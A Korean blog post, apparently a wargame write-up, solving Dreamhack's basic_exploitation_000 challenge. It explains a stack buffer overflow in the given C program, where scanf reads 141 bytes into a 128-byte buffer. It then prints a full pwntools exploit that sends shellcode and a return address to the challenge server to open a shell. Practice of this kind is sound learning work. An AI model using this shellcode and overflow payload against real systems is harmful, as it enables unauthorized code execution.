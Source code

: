 ```yaml
---
title: "[Dreamhack] basic_exploitation_000 문제 풀이"
date: "2024-07-14"
tags: ["dreamhack", "system_hacking", "wargame"]
draft: false
summary: "요약: 오늘은 좀 쉬웠다 ㅋ"
---
```


# 문제 파악

일단 이 문제는 쉽게도 C 소스 코드를 제공해준다.

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
puts("TIME OUT");
exit(-1);
}

void initialize() {
setvbuf(stdin, NULL, _IONBF, 0);
setvbuf(stdout, NULL, _IONBF, 0);

signal(SIGALRM, alarm_handler);
alarm(30);
}

int main(int argc, char *argv[]) {

char buf[0x80];

initialize();
printf("buf = (%p)\n", buf);
scanf("%141s", buf);

return 0;
}
```

코드는 위와 같다. 딱봐도 `scanf` 부분에서 BOF 가 발생하는 것을 볼 수 있는데,
buf는 0x80(128 bytes)인데, 141 bytes를 받고 있다. ~~이건 알아봐야지 ㅇㅇ~~

이 부분을 타겟삼아서 익스를 짜보겠다.

# 익스코드 작성

익스는 아래처럼 짜려고 한다.
- esp~ebp까지의 간격~~이라고 해야하나..?~~ 어느정도인지 파악하기. -> 132byte 만큼 쓸거임
- 구글링해서 32bit shellcode 가져오기 (아무거나 상관없을듯?)
- 더미값 넣고 (shellcode 길이만큼 빼고)
- buf 주소 넣으면? 끝

```python
from pwn import *
import re

context.update(arch='i386', os='linux')
elf = ELF('./basic_exploitation_000')

p = remote('host1.dreamhack.games', 19783)
# p = process('./basic_exploitation_000')

shellcode = b'\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80'
buf = int(p.recv()[7:17], 16)
print(f'buf : {hex(buf)}')

payload = shellcode
payload += b"A"*106
payload += p32(buf)

p.sendline(payload)

p.interactive()
```

이렇게 짰다.

결과는..!

# 익스플로잇!!!!!!!!!

![](https://i.imgur.com/xdx27Du.png)

처음에 접속 했다 타임아웃 때문에 2트만에 성공!
